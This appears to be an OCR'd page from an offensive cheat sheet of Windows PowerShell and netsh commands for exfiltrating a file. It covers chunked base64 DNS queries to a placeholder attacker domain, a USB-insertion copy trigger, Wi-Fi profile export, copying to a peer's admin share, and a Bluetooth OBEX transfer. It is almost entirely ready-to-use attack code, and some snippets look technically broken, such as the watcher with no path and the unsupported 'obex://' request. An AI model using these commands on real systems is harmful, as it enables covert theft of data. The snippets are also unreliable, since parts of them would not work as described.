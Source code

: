#### Covert Data Exfiltration via DNS

Slow Data Exfiltration via DNS Queries:

```
$Data = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Temp\sensitivefile_copy.txt"))
foreach ($Chunk in $Data -split '(.{253})') {
    Resolve-DnsName -Name "$($Chunk).<attack_domain>"
    Start-Sleep -Seconds 5
}
```

# Data Exfiltration via Physical Media

#### USB Drive Exfiltration

Automatically Exfiltrate Data When USB Is Inserted:

```
Register-ObjectEvent -InputObject (New-Object IO.FileSystemWatcher) -EventName Created -SourceIdentifier USBEvent -Action {
    $DriveLetter = Get-WmiObject Win32_Volume | Where-Object { $_.Label -eq "USB" } | Select-Object -ExpandProperty DriveLetter
    Copy-Item -Path "C:\Temp\sensitivefile_copy.txt" -Destination "$DriveLetter\sensitivefile_copy.txt"
} | Out-Null
```

# Data Exfiltration via Wireless

#### Wi-Fi Networks

Exfiltrate Data Over Wi-Fi Using `netsh`:

```
netsh wlan export profile name=<profile_name> folder=C:\Temp\
```

Use Wi-Fi Direct for Data Exfiltration:

```
netsh wlan start hostednetwork mode=allow ssid=<network_name> key=<password>
Copy-Item -Path "C:\Temp\sensitivefile_copy.txt" -Destination "\\<peer_ip>\C$\sensitivefile_copy.txt"
```

#### Bluetooth

Exfiltrate Data via Bluetooth Using `Bluetooth File Transfer`:

```
$Bluetooth = [System.Net.WebRequest]::Create("obex://<target_mac>/<path_to_local_file>")
$Bluetooth.Method = "PUT"
$Bluetooth.ContentType = "application/octet-stream"
$Stream = $Bluetooth.GetRequestStream()
$FileStream = [System.IO.File]::OpenRead("C:\Temp\sensitivefile_copy.txt")
$FileStream.CopyTo($Stream)
$FileStream.Close()
$Stream.Close()
```
